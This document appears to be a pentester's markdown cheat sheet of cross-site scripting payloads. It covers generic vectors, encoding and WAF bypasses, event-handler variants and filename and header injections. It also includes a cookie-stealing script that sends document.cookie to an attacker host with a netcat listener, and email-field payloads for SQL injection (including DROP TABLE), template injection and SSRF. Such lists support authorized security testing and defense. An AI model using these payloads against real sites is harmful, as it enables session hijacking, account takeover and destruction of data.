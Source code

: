 icon:simple/javascript

# XSS

Cross-Site Scripting (XSS) useful payload list to know.

## Test Characters

```bash
"
;
<
>
```

## Generic

```bash
<Svg/Onload=1
c5obc'+alert(1)+'p7yd5
<svg onload=alert(1)>
<script>alert(1)</script>
<</p>iframe src=javascript:alert()//
<script>alert('PoC')</script>
"><script>alert('XSS')</script>
"><script>alert(document.domain)</script>
"><img src=x onerror="alert(document.domain)">
<scr ipt>ale rt (1) </scr ipt>
%3cscript>alert('PoC')</script>
%25%33%63script>alert('PoC')</script>
&#x3c;script>alert('PoC')</script>
</script><script>alert(1)</script>
["</script><script>alert(1)</script>"]
<a href="x">test</a>
<img src=x />
<img src=x onerror="alert(1);" />
&#x3c;script>alert(1)&#x3c;/script>
<img src=x onerror="alert(document.cookie);" />
<iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><
<a href="javascript:alert('PoC')">Click me</a>
<p><script>alert(1)</script></p>
<i nput type="text" id="search-text" name="query" value="" onfocus="alert(1)" autofocus="" />
draggable=true ondragstart="alert(1)
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
<SVG ONLOAD=&#97&#108&#101&#114&#116(1)>
<</div>script</div>>alert()<</div>/script</div>>
"><a href=j<TAB><NEWLINE><TAB><NEWLINE><TAB><NEWLINE>avascript:confirm("payload")>XSSs</a>
```

## Content Injection

In the example below, set up a NetCat listener on port 80 (**sudo nc -nlvp 80**). This listener will receive a connection on success.

```bash
<iframe src=http://10.10.10.10/report height="O" width="O"></iframe>
```

## Cookie Stealing

In the example below, set up a NetCat listener on port 80 sudo nc -nlvp 80. This listener will receive a connection on success.

```bash
<script>new Image().src="http://10.10.10.10/nothinghere.jpg?output="+document.cookie;</script>
```

## WAF Bypass

```bash
%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a%09%0d%0a
```

## XSS in Filename

```bash
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
```

## Host Header

```bash
"> <script>alert(1)</script>
```

## Chrome and Firefox

#### Standard

```bash
<script>alert(1)</script>
<a href="javascript:alert(1)">XSS</a>
<a href="JaVaScript:alert(1)">XSS</a>
<iframe src="javascript:alert(1)">
<script src="data:text/javascript,alert(1)"></script>
<svg><use href="data:image/svg+xml,<svg id='x' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' width='100' height='100'><a xlink:href='javascript:alert(1)'><rect x='0' y='0' width='100' height='100' /></a></svg>#x"></use></svg>
```

#### onclick

```bash
<a onclick="alert(1)">test</a>
<body onclick="alert(1)">test</body>
<textarea onclick="alert(1)">test</textarea>
<p onclick="alert(1)">test</p>
<svg onclick="alert(1)">test</svg>
<iframe onclick="alert(1)">test</iframe>
```

#### onmousover

```bash
<a onmouseover="alert(1)">test</a>
<body onmouseover="alert(1)">test</body>
<p onmouseover="alert(1)">test</p>
<svg onmouseover="alert(1)">test</svg>
```

#### onload

```bash
<body onload=alert(1)>
<svg onload=alert(1)>
<iframe onload=alert(1)></iframe>
```

#### onerror

```bash
<image src/onerror=alert(1)>
<img src/onerror=alert(1)>
<script onerror=alert(1) src=/></script>
<body onerror=alert(1) onload=/>
```

## DOM Based

```bash
javascript:alert(¨DOM")
"><script>alert(document.cookie)</script>
alert(1)
alert(document.cookie)
#<script>alert('xss')</script>
```

## User-Agent

```bash
</SCript><svG/onLoad=alert(document.domain)>
```

## XSS in Cookie Header

```bash
Cookie: PHPSESSID=hd<script>alert(document.cookie)</script>np5
```

## Email recipient payloads

#### XSS

```bash
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

#### Template injection

```bash
"<= 7 * 7 %>"@example.com
test+(${{7*7}} )@example.com
```

#### SQL Injection

```bash
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

#### SSRF

```bash
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```

#### Parameter pollution

```bash
victim&email=attacker@example.com
```

## References

- [Portswigger.net Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
